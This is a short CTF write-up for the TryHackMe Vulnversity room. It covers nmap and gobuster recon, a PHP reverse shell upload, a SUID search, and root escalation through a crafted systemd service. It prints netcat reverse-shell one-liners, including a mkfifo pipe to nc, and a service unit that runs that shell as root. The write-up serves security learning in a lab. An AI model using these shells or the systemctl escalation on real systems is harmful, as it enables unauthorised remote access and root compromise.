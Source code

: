 ```yaml
---
layout: md
title: TryHackMe Vulnversity CTF
description: Notes on tryhackme.com's vulnversity challenge
tags: ['security', 'tryhackme']
sort_key: 1
---
```


{% include project-headers.html %}

#### Nmap Recon
Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

#### Finding web routes
Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

#### Netcat commands
```
basic connection:
nc -lvnp 4444 [> /path/to/file.ext]
nc <ip> <port> [< /path/to/file.ext]

reverse shells:
nc -e /bin/bash <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```
#### File inclusion for reverse shell
Upload [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) as `.phtml`, setup a nc listener, load the phtml location.

#### Search for SUID bit
```
find / -perm /4000
...
/bin/systemctl
```

#### Priviledge escuation
Reverse shell using netcat openbsd from systemctl service.
```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"

[Install]
WantedBy=multi-user.target
```
```bash
/bin/systemctl enable /path/to/root-shell.service
/bin/systemctl start root-shell
```


